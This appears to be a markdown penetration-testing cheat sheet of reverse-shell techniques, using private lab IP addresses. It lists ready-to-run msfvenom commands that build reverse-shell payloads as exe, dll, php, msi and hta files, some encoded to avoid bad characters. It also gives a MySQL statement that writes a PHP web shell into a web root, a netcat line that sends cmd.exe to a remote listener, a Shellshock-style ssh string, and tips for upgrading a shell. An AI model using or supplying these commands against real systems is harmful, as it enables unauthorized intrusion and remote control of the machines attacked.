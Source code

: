 ### MSFVENOM

#### reverse shell in .exe - REQUIRE metasploit multi handler

- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.207 LPORT=4444 -f exe -o reverse.exe

#### reverse shell in .exe - nc -nvlp 4444 is good

- msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.212 LPORT=445 -f exe > rev.exe

#### dll reverse 32bit

- msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.207 LPORT=4444 -f dll -a x86 --platform windows -e x86/xor_dynamic -b '\x00' -o test.dll

#### dll reverse shell

- msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.229 LPORT=9999 -f dll -o myDLL.dll

#### reverse shell in php - window

- msfvenom -p php/reverse_php LHOST=192.168.49.57 LPORT=443 -f raw -o shell.php

#### .MSI file

- msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.207 LPORT=80 -f msi -o shell.msi

#### .HTA files for office/libreoffice

- msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.207 LPORT=80 -f hta-psh -o tmp.hta

#### mySQL

write a file out to writable web root directory window & linux version

- select "<?php echo shell_exec($_GET['c']);?>" into OUTFILE 'C:/wamp/www/webshell.php'

#### Window

can upload nc.exe when have the reverse shell and use ```

- powershell nc.exe 192.168.49.57 80 -e cmd.exe

---

### Shell Upgrade

- run `export TERM=xterm` first after getting a shell

Upgrade shell with bash

- script /dev/null -c bash

Restricted shell rbash

- If you have a restricted bash shell aka rbash, try https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#get-bash-from-ssh

Get directly an interactive shell

- ssh -t user@$ip bash
- ssh user@$ip -t "bash --noprofile -i"
- ssh user@$ip -t "() { :; }; sh -i "

restricted rbash

- ssh user@$ip -t bash

Upgrade shell with Python

- which python3
- python3 -c 'import pty;pty.spawn("/bin/bash")'
- python -c 'import pty;pty.spawn("bin/bash")'

follow up with

- stty raw -echo

---

### Multi Handler Shell

payload for window -> `set payload windows/meterpreter/reverse_tcp`
payload for linux -> `set payload linux/x64/meterpreter/reverse_tcp` or `set payload linux/x86/meterpreter/reverse_tcp`
